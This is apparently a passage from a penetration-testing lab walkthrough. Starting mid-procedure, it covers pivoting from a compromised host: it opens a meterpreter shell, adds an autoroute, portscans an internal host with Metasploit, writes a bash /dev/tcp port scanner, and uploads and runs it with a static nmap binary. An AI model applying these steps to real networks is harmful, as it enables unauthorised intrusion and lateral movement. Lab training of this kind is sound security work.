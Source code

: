 A meterpreter session should be spawned on the target.

5. From meterpreter, open a command shell and identify network details to find the internal network and the second target's IP:

```
meterpreter > shell
ip addr
```

In the lab the compromised host's internal interface shows 192.180.108.2; the second target is at 192.180.108.3.

6. Add a route in Metasploit so scans go through the session (autoroute):

```
run autoroute -s 192.180.108.2
```

7. Background the meterpreter session (CTRL+Z, confirm with y) and use Metasploit's TCP portscan auxiliary module to scan the second host:

```
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.180.108.3
set verbose false
set ports 1-1000
exploit
```

8. Inspect the available static binaries on the compromised host (useful for uploading nmap if the target is air-gapped):

```
ls -al /root/static-binaries/nmap
file /root/static-binaries/nmap
```

9. Background the Metasploit session again and create a simple bash port-scanning script (first 1000 ports) on your attack machine. Example script (save as `bash-port-scanner.sh`):

```
#!/bin/bash
for port in {1..1000}; do
   timeout 1 bash -c "echo >/dev/tcp/$1/$port" 2>/dev/null && echo "port $port is open"
done
```

10. Foreground msfconsole, reattach to the meterpreter session (`sessions -i <id>`), and upload both the static `nmap` binary and the bash script to the compromised host:

```
sessions -i 1
upload /root/static-binaries/nmap /tmp/nmap
upload /root/bash-port-scanner.sh /tmp/bash-port-scanner.sh
```

11. Make the uploaded files executable and run the bash port scanner against the internal host:

```
meterpreter > shell
cd /tmp
chmod +x ./nmap ./bash-port-scanner.sh
./bash-port-scanner.sh 192.180.108.3
```
